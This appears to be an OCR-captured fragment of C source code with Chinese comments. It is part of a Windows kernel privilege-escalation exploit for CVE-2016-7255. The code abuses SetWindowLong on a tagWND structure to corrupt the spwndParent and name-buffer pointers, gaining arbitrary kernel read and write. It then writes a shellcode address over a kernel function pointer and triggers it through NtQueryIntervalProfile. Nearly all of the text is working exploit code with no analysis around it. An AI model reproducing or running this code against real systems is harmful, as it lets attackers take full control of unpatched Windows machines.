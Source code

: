 ```
    DWORD dwParentOffset = dwOffset + 0x34;

    // 获取原tagWND->spwndParent
    dwOrgPar = GetWindowLong(hTriggerWnd, dwParentOffset);

    // 设置tagWND->spwndParent为目标函数地址
    SetWindowLong(hTriggerWnd, dwParentOffset, (ULONG)pTargetAddr);

    // 获取目标函数地址中的原来的内容
    dwOrg = (DWORD)GetAncestor(hAttackWnd, GA_PARENT);

    // 恢复tagWND->spwndParent
    SetWindowLong(hTriggerWnd, dwParentOffset, dwOrgPar);

    DWORD dwBufOffset = dwOffset + 0x84 + 0x8;

    // 修改tagWND->StrName->Buffer为目标函数地址
    SetWindowLong(hTriggerWnd, dwBufOffset, (ULONG)pTargetAddr);

    // 设置目标函数地址为ShellCode地址
    WCHAR wBuf[3] = { 0 };

    *(PDWORD)wBuf = (DWORD)ShellCode_CVE_2016_7255;
    if (!SetWindowTextW(hAttackWnd, wBuf))
    {
        ShowError("SetWindowText", GetLastError());
        bRet = FALSE;
        goto exit;
    }

    // 调用函数实现提权
    if (!CallNtQueryIntervalProfile())
    {
        bRet = FALSE;
        goto exit;
    }

    // 恢复目标函数地址
    *(PDWORD)wBuf = dwOrg;
    if (!SetWindowTextW(hAttackWnd, wBuf))
    {
        ShowError("SetWindowText", GetLastError());
        bRet = FALSE;
        goto exit;
    }

exit:
    return bRet;
}
```  
#   
#   
```
```  
  